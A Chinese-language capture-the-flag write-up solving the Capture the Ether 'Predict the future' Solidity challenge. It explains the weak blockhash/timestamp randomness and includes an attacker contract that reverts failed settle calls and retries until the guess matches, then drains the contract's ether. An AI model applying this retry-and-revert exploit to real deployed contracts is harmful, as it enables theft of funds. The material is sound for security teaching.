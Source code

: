 # Predict the future

## 题目描述

[原题链接](https://capturetheether.com/challenges/lotteries/predict-the-future/)

原题目要求 PredictTheFutureChallenge 合约里面的余额为 0。参与过程分成两步，第一步时锁定答案，第二步揭示答案。如果锁定的答案等于当前揭示答案是用 blockhash 以及 timestamp 通过 hash 生成的数，即可转移 2 ether 出去。

## 运行

**安装 Foundry**

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Lotteries/Predict_the_future -vvv
```

## 功能简述

在 PredictTheFutureChallenge 合约中，锁定猜测 lockInGuess 和揭示答案 settle 分成了两步，并且要求 settle 的调用需要在 lockInGuess 两个区块之后。settle 如果执行成功，guesser 会被置为 address(0)，这样就无法再次调用 settle。

解决思路是，我们确实需要老老实实调用 lockInGuess 并转入一个 ether。但是在调用 settle 的时候，如果我们的 answer 不正确，我们需要能够 revert 这个 transaction，这样 guesser 不会被置为 address(0)，然后我们可以再次调用 settle，这样一直执行下去直到 answer 等于 guess。而且因为 answer 的空间是 0 - 10，每次尝试有 1/10 的成功概率，是具有可能性的。

Attacker 合约中，lockInGuess，我们先调用 PredictTheFutureChallenge 的 lockInGuess，设置一个空间内的数，比如 6。然后过了两个块后，我们可以调用 Attacker 的 attack，如果挑战失败，revert 整个 transaction。然后再次尝试，直到成功后将所有的余额发送到 balance。

```sol
    function lockInGuess(uint8 n) external payable {
        if (msg.sender != owner) revert NotOwner();
        if (address(this).balance < 1 ether) revert ValueErr();
        
        challenge.lockInGuess{value: 1 ether}(n);
    }
    
    function attack() external {
        if (msg.sender != owner) revert NotOwner();

        challenge.settle();
    
        // if we guessed wrong, revert
        if (!challenge.isComplete()) revert GuessErr();
        // return all of it to EOA
        payable(tx.origin).transfer(address(this).balance);
    }
```
